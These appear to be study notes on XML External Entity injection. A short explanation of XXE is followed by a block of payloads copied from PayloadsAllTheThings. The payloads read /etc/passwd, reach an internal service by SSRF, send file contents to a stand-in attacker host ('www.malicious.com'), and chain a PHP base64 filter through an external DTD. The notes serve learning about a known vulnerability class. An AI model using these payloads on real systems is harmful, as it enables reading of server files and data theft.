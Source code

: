 ### XML External Entity Injection 

Resources used : https://portswigger.net/web-security/xxe

XML : It stands for eXtensible Markup Language and is a markup language kind of like HTML, but this was mainly designed to store and transport data , this was desinged to be self-descriptive. 

Due to how this is we have attacks such as XML external entity injection which can lead to an attacker to intefere with an application's processing of XML data , and lead to file read in most cases. 
In some case to escalate an XXE attacks to compromise the underlying server , and perform an SSRF attack from this.

We can use this to :
1. Retrieve Files 
2. Perform SSRF Attacks
3. Exfiltragte data of bound
4. Blind XXE to retrieve data via error messages

A great resource to learn from is this : https://www.youtube.com/watch?v=gjm6VHZa_8s&t

Some snippets of XXE payloads from Payloads all the things : https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection

```xml
# If its visible and is parsed 
<?xml version\="1.0"?><!DOCTYPE root \[<!ENTITY test SYSTEM 'file:///etc/passwd'\>\]><root\>&test;</root\>
# XML to SSRF 
<?xml version\="1.0" encoding\="ISO-8859-1"?>
<!DOCTYPE foo \[
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "http://internal.service/secret\_pass.txt" >
\]>
<foo\>&xxe;</foo\>
# Out of Band XXE
<?xml version\="1.0" encoding\="ISO-8859-1"?>
<!DOCTYPE foo \[
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "file:///etc/passwd" >
<!ENTITY callhome SYSTEM "www.malicious.com/?%xxe;"\>
\]
>
<foo\>&callhome;</foo\>

# External DTD , PHP Filter 
<?xml version\="1.0" ?>
<!DOCTYPE r \[
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://127.0.0.1/dtd.xml"\>
%sp;
%param1;
\]>
<r\>&exfil;</r\>

File stored on http://127.0.0.1/dtd.xml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://127.0.0.1/dtd.xml?%data;'>">
```